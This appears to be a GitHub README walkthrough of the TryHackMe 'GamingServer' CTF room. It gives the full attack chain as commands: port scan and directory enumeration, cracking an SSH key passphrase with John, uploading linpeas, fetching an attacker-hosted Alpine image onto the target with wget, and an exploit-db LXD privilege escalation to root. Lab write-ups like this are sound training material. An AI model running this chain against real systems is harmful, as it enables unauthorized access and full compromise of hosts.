

# GamingServer CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **GamingServer** CTF challenge on [TryHackMe](https://tryhackme.com/r/room/gamingserver). 
---

Basic port scan 

```
nmap -sV -sC 10.10.44.124
```



Basic directory enumeration

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.44.124  
```

user might be john as suggested by comment on the site

```
ssh2john secretKey > hash.txt
```

```
john --wordlist=dict.lst hash.txt
```

found password: letmein

```
scp -i secretKey ~/linpeas.sh john@10.10.44.124:/tmp/
```

download from alpine lxd from
```
https://github.com/saghul/lxd-alpine-builder/blob/master/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

start python server `sudo python3 -m http-server`


use on victim
```
wget 10.11.115.41:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

create exploit file from 

`https://www.exploit-db.com/exploits/46978`
`nano exploit.sh`
`chmod +x exploit.sh`

to gain root
```
./exploit.sh -f alpine-v3.13-x86_64-20210218_0139.tar.gz
```

# MACHINE PWNED
